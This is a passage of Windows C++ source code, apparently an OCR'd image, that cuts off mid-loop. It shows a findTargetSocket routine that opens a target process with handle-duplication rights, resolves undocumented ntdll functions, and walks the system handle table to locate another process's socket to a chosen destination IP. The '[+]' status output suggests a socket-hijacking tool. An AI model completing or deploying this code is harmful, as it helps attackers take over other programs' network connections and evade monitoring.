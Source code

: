 ```cpp
{
	NonPagedPool,
	PagedPool,
	NonPagedPoolMustSucceed,
	DontUseThisType,
	NonPagedPoolCacheAligned,
	PagedPoolCacheAligned,
	NonPagedPoolCacheAlignedMustS
} POOL_TYPE, * PPOOL_TYPE;

typedef struct _OBJECT_NAME_INFORMATION
{
	UNICODE_STRING Name;
} OBJECT_NAME_INFORMATION, * POBJECT_NAME_INFORMATION;

PVOID GetLibraryProcAddress(const char *LibraryName, const char *ProcName)
{
	return GetProcAddress(GetModuleHandleA(LibraryName), ProcName);
}

SOCKET findTargetSocket(DWORD dwProcessId, LPSTR dstIP) {
	HANDLE hProc;
	PSYSTEM_HANDLE_INFORMATION handleInfo;
	DWORD handleInfoSize = 0x10000;
	NTSTATUS status;
	DWORD returnLength;
	WSAPROTOCOL_INFOW wsaProtocolInfo = { 0 };
	SOCKET targetSocket;

	// Open target process with PROCESS_DUP_HANDLE rights
	hProc = OpenProcess(PROCESS_DUP_HANDLE, FALSE, dwProcessId);
	if (!hProc) {
		printf("[!] Error: could not open the process!\n");
		exit(-1);
	}
	printf("[+] Handle to process obtained!\n");

	// Find the functions
	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetLibraryProcAddress("ntdll.dll", "NtQuerySystemInformation");
	_NtDuplicateObject NtDuplicateObject = (_NtDuplicateObject)GetLibraryProcAddress("ntdll.dll", "NtDuplicateObject");
	_NtQueryObject NtQueryObject = (_NtQueryObject)GetLibraryProcAddress("ntdll.dll", "NtQueryObject");

	// Retrieve handles from the target process
	handleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
	while ((status = NtQuerySystemInformation(SystemHandleInformation, handleInfo, handleInfoSize, NULL)) == STATUS_INFO_LENGTH_MISMATCH)
		handleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(handleInfo, handleInfoSize *= 2);

	printf("[+] Found [%d] handles in PID %d\n============================\n", handleInfo->HandleCount, dwProcessId);

	// Iterate 
	for (DWORD i = 0; i < handleInfo->HandleCount; i++) {

		// Check if it is the desired type of handle
		if (handleInfo->Handles[i].ObjectTypeNumber == 0x24) {

			SYSTEM_HANDLE handle = handleInfo->Handles[i];
			HANDLE dupHandle = NULL;
			POBJECT_NAME_INFORMATION objectNameInfo;
```